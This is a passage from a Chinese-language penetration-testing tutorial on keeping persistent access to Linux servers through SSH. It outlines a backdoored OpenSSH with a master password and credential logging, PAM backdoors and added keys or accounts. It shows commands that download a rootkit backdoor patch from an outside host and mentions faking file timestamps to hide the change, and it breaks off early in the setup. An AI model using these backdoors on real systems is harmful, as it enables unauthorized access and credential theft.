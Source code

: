 ```yaml
---
title: day16-权限维持篇-Linux-SSH利用
date: 2024-03-21 23:07 +0800
categories: [内网,权限维持] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```

## 0x00 前言

本次，主要是进行有关于Linux的一些权限维持的技术手段。主要从linux登录的角度来进行权限维持的，其中主要涉及以下三个思路方面：

- 替换版本-OpenSSH后门  ==> 通过替换linux上openssh的版本来实现一个具备`万能密钥`的ssh，以及记录下本机器使用的`ssh账号密码`
- 更改验证-SSH-PAM后门  ==> 通过修改`PAM`的认证来实现`万能`密钥的连接
- 登录方式-软链接&公私钥&新帐号  ==> 通过更改验证方式、获取到对应账户的密钥以及添加新账号来实现权限的维持。

为了更贴近真实环境，这里我们采用云端的`Linux`来进行实验 ==> 采用的服务器是：`Centos 7.7`

## 0x01 替换版本-OpenSSH后门

OpenSSH是SSH（Secure Shell）协议的免费开源实现。很多人误认为OpenSSH与OpenSSL有关联，但实际上这两个计划有不同的目的和不同的发展团队，名称相近只是因为两者有同样的发展目标──提供开放源代码的加密通信软件。

### 1、利用原理

替换本身操作系统的ssh协议支撑软件openssh，重新安装自定义的openssh,达到记录帐号密码，也可以采用万能密码连接的功能！

### 2、利用

我们将演示万能密码链接，实现对`ssh`版本替换的掩藏、以及记录账户密码！接下来让我们开始实验吧！！！

#### 1）环境准备

*安装依赖包*

```bash
yum -y install openssl openssl-devel pam-devel zlib zlib-devel 
yum -y install gcc gcc-c++ make 
```

*准备安装包*

```bash
wget http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz # 后门文件
wget https://mirror.aarnet.edu.au/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz # openssh5.9文件
```

*备份版本以及ssh的配置文件修改日期*

这里这一步主要是为了后续的伪装！！！

![截图](24d31823393eccef4ab5240cfbd64f17.png)

~~SHH版本: OpenSSH_7.4p1, OpenSSL 1.0.2k-fips  26 Jan 2017~~
